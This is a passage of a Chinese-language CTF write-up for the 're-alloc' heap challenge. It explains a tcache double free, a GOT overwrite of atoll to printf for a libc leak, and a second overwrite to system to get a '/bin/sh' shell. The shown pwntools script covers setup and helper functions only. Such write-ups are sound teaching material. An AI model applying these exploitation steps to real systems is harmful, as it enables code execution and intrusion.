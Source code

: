 **再用 Free, 輸入此 chunk idx, 達到 double free**

# Idea
思路是製造出 T-cache double free

因為 PIE disabled 而且 RELRO partial, 所以往爆改 got table 想

看到 atoll 的參數 buf 是可輸入的, 如果能把 atoll 改成 system 就能直接開 shell

但因為 ASLR, 不知道 libc 位址, 也就不知道 system 位址

所以要先想辦法 leak libc

而要 leak libc，可以透過把 atoll 改成 printf@plt (PIE disabled 所以 printf@plt 已知)

就有 Format string vulns, 就能 leak 躺在 registers/stack 裡的值, 這些地方有機會有 libc address

表示這樣有機會 leak libc

leak 後要再想辦法再度把 atoll 改成 system, 就能簡簡單單輸入 `/bin/sh` 開 shell

# Exploit on libc-2.27
首先是一些 function 定義, 方便後續 exploit 好寫
```python
from pwn import *
context.arch = 'amd64'

printf_plt = 0x401070

atoll_got = 0x404048

def allocate(idx, size, data=None):
    p.sendlineafter('choice: ', str(1))
    p.sendlineafter('Index:', str(idx))
    p.sendlineafter('Size:', str(size))
    if data != None:
        p.sendafter('Data:', data)

def reallocate(idx, size, data=None):
    p.sendlineafter('choice: ', str(2))
    p.sendlineafter('Index:', str(idx))
    p.sendlineafter('Size:', str(size))
    if data != None:
        p.sendafter('Data:', data)

def rfree(idx, isBytes=False):
    p.sendlineafter('choice: ', str(3))
    if isBytes == False:
        p.sendlineafter('Index:', str(idx))
    else:
        p.sendlineafter('Index:', idx)

libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
p = process('./re-alloc')
```
